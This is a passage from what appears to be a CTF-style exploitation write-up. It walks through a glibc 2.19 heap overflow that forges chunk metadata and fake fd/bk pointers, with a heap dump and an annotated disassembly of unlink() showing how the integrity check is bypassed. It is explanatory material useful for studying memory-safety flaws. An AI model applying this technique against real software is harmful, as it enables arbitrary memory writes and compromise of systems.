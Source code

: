 
Then we overflow 3rd chunk (the 24 byte one) and we change size of 4th chunk from 0x101 to
0x100. Also we set prev_size of that chunk to 0xa0, to point somewhere in the 2nd chunk.
The heap will become:

    00603000  00 00 00 00 00 00 00 00  91 00 00 00 00 00 00 00
    00603010  78 66 DD F7 FF 7F 00 00  78 66 DD F7 FF 7F 00 00
    00603020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
    ........
    00603080  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
    00603090  90 00 00 00 00 00 00 00  90 00 00 00 00 00 00 00
    006030A0  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41
    006030B0  B8 20 60 00 00 00 00 00  C0 20 60 00 00 00 00 00
    006030C0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
    ........
    00603110  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
    00603120  00 00 00 00 00 00 00 00  21 00 00 00 00 00 00 00
    00603130  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41
    00603140  A0 00 00 00 00 00 00 00  00 01 00 00 00 00 00 00
    00603150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
    ........
    00603230  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
    00603240  00 00 00 00 00 00 00 00  C1 0D 02 00 00 00 00 00

Finally we set the fd and bk pointers (in the 2nd message) to point somewhere in Q, and then
we trigger unlink() by deleting 4th chunk. Let's dig into free() internals, to see how unlink() works:

    libc_2.19.so:00007FFFF7AAC223 rbx = chunk's header
    libc_2.19.so:00007FFFF7AAC223
    libc_2.19.so:00007FFFF7AAC223 do_unlink_7FFFF7AAC223:
    libc_2.19.so:00007FFFF7AAC223     test    byte ptr [rbx+8], 1         ; check if previous chunk is used (0x100 -> no)
    libc_2.19.so:00007FFFF7AAC227     jnz     short SKIP_7FFFF7AAC26D     ; if so, don't unlink
    libc_2.19.so:00007FFFF7AAC229     mov     rax, [rbx]                  ; rax = prev_size = 0xa0
    libc_2.19.so:00007FFFF7AAC22C     sub     rbx, rax                    ; rbx = previous chunk = 0x6030a0
    libc_2.19.so:00007FFFF7AAC22F     add     rbp, rax                    ; current chunk's size = 0x100 + 0xa0
    libc_2.19.so:00007FFFF7AAC232     mov     rax, [rbx+10h]              ; rax = fd = 0x6020b8
    libc_2.19.so:00007FFFF7AAC236     mov     rdx, [rbx+18h]              ; rdx = bk = 0x6020c0
    libc_2.19.so:00007FFFF7AAC23A     cmp     rbx, [rax+18h]              ; rbx (= P = 0x6030A0) == *(0x6020b8 + 0x18) = *0x6020d0 ?
    libc_2.19.so:00007FFFF7AAC23E     jnz     CORRUPTED_7FFFF7AACA84      ; if not freelist is corrupted
    libc_2.19.so:00007FFFF7AAC244     cmp     rbx, [rdx+10h]              ; rbx (= P = 0x6030A0) == *(0x6020c0 + 0x10) = *0x6020d0 ?
    libc_2.19.so:00007FFFF7AAC248     jnz     CORRUPTED_7FFFF7AACA84      ; if not freelist is corrupted
    libc_2.19.so:00007FFFF7AAC24E     cmp     qword ptr [rbx+8], 3FFh     ; check if chunk it's in smallbins
    libc_2.19.so:00007FFFF7AAC256     mov     [rax+18h], rdx              ; *0x6020d0 = 0x6020c0
    libc_2.19.so:00007FFFF7AAC25A     mov     [rdx+10h], rax              ; *0x6020d0 = 0x6020b8
    libc_2.19.so:00007FFFF7AAC25E     jbe     short SKIP_7FFFF7AAC26D
    libc_2.19.so:00007FFFF7AAC260     mov     rdx, [rbx+20h]              ; ignore that stuff
    libc_2.19.so:00007FFFF7AAC264     test    rdx, rdx
    libc_2.19.so:00007FFFF7AAC267     jnz     loc_7FFFF7AACA58
    libc_2.19.so:00007FFFF7AAC26D
    libc_2.19.so:00007FFFF7AAC26D SKIP_7FFFF7AAC26D:
    ...
